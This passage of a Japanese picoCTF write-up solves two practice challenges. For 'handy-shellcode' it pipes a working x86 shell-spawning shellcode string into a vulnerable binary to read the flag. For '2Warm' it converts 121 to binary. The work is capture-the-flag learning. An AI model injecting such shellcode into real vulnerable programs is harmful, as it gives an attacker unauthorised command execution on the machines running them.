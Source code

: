 ```shell
AyatoShitomi@picoCTF_production_shell_001:~$ cd /problems/handy-shellcode_3_eefb645e8107c9aa00c62fb91b755de8
AyatoShitomi@picoCTF_production_shell_001:/problems/handy-shellcode_3_eefb645e8107c9aa00c62fb91b755de8$ ls
flag.txt  vuln  vuln.c
```

ここに格納されていた。この`flag.txt`を読めばいい。

ここでまた手が詰まった。


Shellコードを埋め込むといいらしい。
https://qiita.com/watson2m/items/bdeab06a5fedf1620a81

```shell
> (echo -e "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";cat) | ./vuln
```

これであとはCatすればいい。
検証してOK

## 2Warm（2022年9月11日）

### 問題の概要
> 121(10進法)を2進数に変換する

### アプローチ１

コマンドラインで進数変換できたはず。

調べたら`bc`コマンドが出てきた。

> ```
> echo "obase=to_base; ibase=from_base; number_str" | bc
> ```
> obase,ibaseで指定できる値は、2以上の整数ならなんでもOK。

https://qiita.com/macoril/items/77ba050cad17f03ed46a

ということは、`echo "obase=2; ibase=10; 121" | bc`でいける。

```bash
AyatoShitomi@picoCTF_production_shell_001:~$ echo "obase=2; ibase=10; 121" | bc
1111001
AyatoShitomi@picoCTF_production_shell_001:~$ 
```

よって`1111001`がフラグの中身

### アプローチ２

進数変換は上から順に変換する数で割っていけばいい。

> 121/2 = 60 ... 1
60/2 = 30 ... 0
30/2 = 15 ... 0
15/2 = 7 ... 1
7/2 = 3 ... 1
3/2 = 1 ... 1
1/2 = 0 ... 1

よって`1111001`がフラグの中身

